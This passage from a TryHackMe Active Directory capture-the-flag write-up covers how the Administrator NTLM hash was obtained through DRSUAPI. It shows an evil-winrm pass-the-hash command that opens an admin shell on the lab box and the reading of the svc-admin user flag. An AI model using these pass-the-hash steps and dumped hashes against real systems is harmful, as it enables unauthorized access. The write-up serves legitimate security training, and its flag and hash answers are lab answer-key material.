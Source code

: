 `DRSUAPI`

### What is the Administrators NTLM hash?

`0e0363213e37b94221497260b0bcb4fc`

### What method of attack could allow us to authenticate as the user without the password?

[**Pass The Hash**](https://beta.hackndo.com/pass-the-hash/)

### Using a tool called Evil-WinRM what option will allow us to use a hash?

`-H`

```bash
root@kali:~/thm/attackive-directory# evil-winrm -i $TARGET -u Administrator -H 0e0363213e37b94221497260b0bcb4fc

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\Administrator\Documents> whoami
thm-ad\administrator
```

![secretsdump](https://amirr0r.github.io/assets/img/thm/windows/attackive-directory/secretsdump.png)

___

## Flag Submission Panel

### svc-admin

```powershell
[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\svc-admin\Desktop> dir


    Directory: C:\Users\svc-admin\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         4/4/2020  12:18 PM             28 user.txt.txt


[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\svc-admin\Desktop> type user.txt.txt
TryHackMe{K3rb3r0s_Pr3_4uth}
```

### backup
